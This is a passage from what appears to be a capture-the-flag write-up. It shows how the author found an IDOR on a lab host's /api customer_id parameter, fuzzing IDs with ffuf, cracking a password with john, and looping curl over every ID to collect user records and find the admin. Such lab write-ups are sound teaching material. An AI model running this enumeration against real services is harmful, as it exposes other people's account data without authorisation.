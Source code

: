 #### API and Planning

`/api` - JSON!
```json
{"data":null,"response_code":400,"response_desc":"Invalid Request"}
```

![](noplanning.png)

Oh no...
![](ohdear.png)

To get this page I decide to remember to Burp intercept the response and save the response method...
![](instructions.png)
`Right Click on Proxied Request -> Forward -> Right Click on Response from http://10.10.233.101/`
Save as `planning-authenticated.html` to practice spell authenticated as my notes can 80 plus misspellings of authenticated as `authenicated` ... thank `linux` for `sed` 

IDOR incoming... we can fuzzing for an IDOR on `api/?` parameter `customer_id=` that takes a digit as an id argument with `ffuf`. First make the wordlist list:
```bash
for i in $(seq 0 100); do echo $i | tee -a 0-999-single-digits.txt; done
```

Although this is somewhat unnecessary it is also more realworld like to atleast do the closest thing to the real world

```bash
ffuf -u 'http://tourism.mht/api/?customer_id=FUZZ' -fw 2 -c -w 0-999-single-digits.txt:FUZZ -o ffuf-custom_idFUZZ.out
```

Insert shrugging john traversal for the password of `qwerty5` as we speed on through to the need to grab every response from 100 plus users to find the real admin from all the users 
![](johntraversal.png)
So first directory management and script `curl` to grab and save each, then concatenate them and `jq` to view it nicely  - or recursive grep to find the admin.
```bash
mkdir api-customer-id-responses
# Loop to get all id
for ID in $(cat ../0-999-single-digits.txt); do curl http://tourism.mht/api/?customer_id=$ID -o customer-id-$ID.txt; done
# Concatenate all the good json 
ls * | grep -r -v 'Customer not found' | sed 's/customer-id-.\.txt://g' | tee -a valid-users.json
# view with jq f0or the screenshots
cat valid-users.json | jq
```

We could also just recursive grep with:  `grep -r "isadmin\":\"1\""` without the concatenation to find all the filename concatenating the user admin.

![](bashinginthework.png)
